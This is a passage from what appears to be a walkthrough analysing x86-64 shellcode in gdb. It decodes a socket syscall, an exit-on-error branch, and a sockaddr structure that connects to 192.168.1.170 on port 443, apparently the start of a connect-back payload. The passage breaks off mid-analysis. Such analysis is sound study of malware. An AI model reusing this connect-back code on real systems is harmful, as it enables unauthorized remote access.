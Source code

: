 They can be converted to the following C code:

```cpp
RAX = socket(
  2,            // AF_INET
  1,            // SOCK_STREAM
  0,            // IP protocol
);
```

It simply creates a new TCP socket. After that, we have the following instructions:

```bash
(gdb) x/11i $rip
# => 0x40008a:    test   rax,rax
#    0x40008d:    js     0x4000ca
#    0x40008f:    xchg   rdi,rax
#    0x400091:    movabs rcx,0xaa01a8c0bb010002
#    0x40009b:    push   rcx
#    0x40009c:    mov    rsi,rsp
#    0x40009f:    push   0x10
#    0x4000a1:    pop    rdx
#    0x4000a2:    push   0x2a
#    0x4000a4:    pop    rax
#    0x4000a5:    syscall
```

The first instruction `tests` the value stored inside the register `RAX`, setting the appropriate flags.

For example:

- if the value was 0, then the flag ZF (Zero Flag) would be set

- if the value was negative (signed), then the SF (Sign Flag) would be set.

In this case, if the value is signed, the instruction `js 0x4000ca` jumps to the address `0x4000ca`, which contains the following instructions:

```bash
(gdb) x/5i 0x4000ca
  #  0x4000ca:    push   0x3c
  #  0x4000cc:    pop    rax
  #  0x4000cd:    push   0x1
  #  0x4000cf:    pop    rdi
  #  0x4000d0:    syscall
```

It's simply a call to the syscall **0x3c **(`sys_exit`), which returns the exit code 1 (stored inside the register `RDI`).

Let's analyze the other instructions following the `test`:

```nasm
; save the file descriptor of the socket created previously into RDI
xchg   rdi,rax

; 0xaa -> 170
; 0x01 -> 1
; 0xa8 -> 168
; 0xc0 -> 192
; 0x01bb -> 443
; 0x0002 -> AF_INET
movabs rcx,0xaa01a8c0bb010002

; save the pointer to the previous data into RSI
push   rcx
mov    rsi,rsp

; set RDX to 16
```